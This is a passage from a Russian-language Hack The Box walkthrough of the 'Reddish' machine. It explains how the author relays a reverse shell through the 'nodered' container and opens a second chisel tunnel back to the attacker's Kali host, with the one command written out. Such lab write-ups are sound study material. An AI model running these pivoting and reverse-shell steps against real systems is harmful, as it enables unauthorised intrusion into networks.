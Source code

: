 **Больше туннелей!**

Как ты понимаешь, отклик реверс-шелла я отправил в контейнер `nodered`, а ловил его на Kali, поэтому прежде всего этого действа, я пробросил еще один локальный туннель на 1337-м порту с `nodered` на свою машину.

```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 1337:127.0.0.1:1337 &
```

![network-map-5.png](/assets/images/htb/machines/reddish/network-map-5.png)
{:.center-image}

Сетевая карта. Часть 5: Второй туннель до Kali с nodered
{:.quote}

Теперь можно честно забрать хеш юзера.

![www-user-flag.png](/assets/images/htb/machines/reddish/www-user-flag.png)